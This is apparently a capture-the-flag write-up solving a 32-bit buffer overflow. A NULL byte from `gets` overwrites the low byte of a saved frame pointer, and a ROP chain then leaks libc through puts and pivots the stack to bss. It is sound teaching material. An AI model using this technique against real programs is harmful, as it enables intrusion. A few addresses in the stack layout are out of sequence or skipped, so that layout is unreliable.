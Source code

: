 # Solution

## Brief

- similar to `one is enough`: overwriting `main`'s `ebp` lowest byte to `NULL` and hope that the new `ebp` value points to our input

## Complete

```asm
call gets  ; first arg is [ebp-0x58] <-- our input buffer address
...
lea esp, [ebp-0x8]
pop ecx
pop ebx
pop ebp
lea esp, [ecx-4]
ret
...
```

We could see that after our input is read, the esp is changed to point to
`[ebp-0x8]`. The value of `ecx` after `pop ecx` is equivalent to `ebp` due
to this instruction `lea esp, [ecx-4]`.

As can be seen we can not directly overwrite the saved eip ([ebp-0x4]) as
we would mess up the `ecx` which in disguise is act as the function's `ebp`

Stack layout after supplying input of 0x50 bytes

```text

AAAA
AAAA
...
AAAA
bbbb  <-- value that would be pop to `ecx`
cccc  <-- value that would be pop to `ebx`
```

As can be seen, with the input of 0x50 bytes, we reached just before the
future value of `ecx`. Since our input is retrieved using `gets` and it
reads until `\n` is sent, the `\n` is changed to be `\x00` by `gets` to ensure
our input is NULL terminated. Therefore, our input is actually 0x51 bytes.
This last byte (`\x00`) overwrites the lowest byte of future `ecx`.

From now on, I will refer future `ecx` as `true ebp`

Let's say that before our input is being read, we have the following state:

```text
input buffer address: 0xffffc7f0
true ebp            : 0xffffc860
```

We could see that if we overwrite the `true ebp` last byte with the `gets`
NULL byte, when the `main` function reaches `lea esp, [ecx-4]`, the `esp`
will now points to `0xffffc7fc`, and the function will return to whatever
is in `0xffffc7fc`. Since this address is overlaps with our input buffer,
we could control the value of this memory address to be our ROP chain

```text
0xffffc7f0: ret gadget          <-- ret slide
0xffffc7f4: ret gadget
0xffffc7f8: ret gadget
0xffffc7fc: ret gadget
0xffffc780: ret gadget
0xffffc800: ret gadget
0xffffc804: ret gadget
0xffffc808: ret gadget
0xffffc810: ret gadget
0xffffc814: ret gadget
0xffffc818: ret gadget
0xffffc81c: ret gadget
0xffffc820: ret gadget
0xffffc824: ret gadget
0xffffc828: puts@plt            <-- ret to puts to leak libc
0xffffc82c: clean up gadget     <-- to clean up puts argument
0xffffc830: puts@got.plt        <-- puts argument
0xffffc834: gets@plt            <-- ret to gets to build second ROP chain on bss
0xffffc838: stack pivot gadget  <-- pivot stack to bss
0xffffc840: bss                 <-- gets argument
```

We have approximately `1/16` chance to get the desired state of
`input buffer address` and `true ebp`.
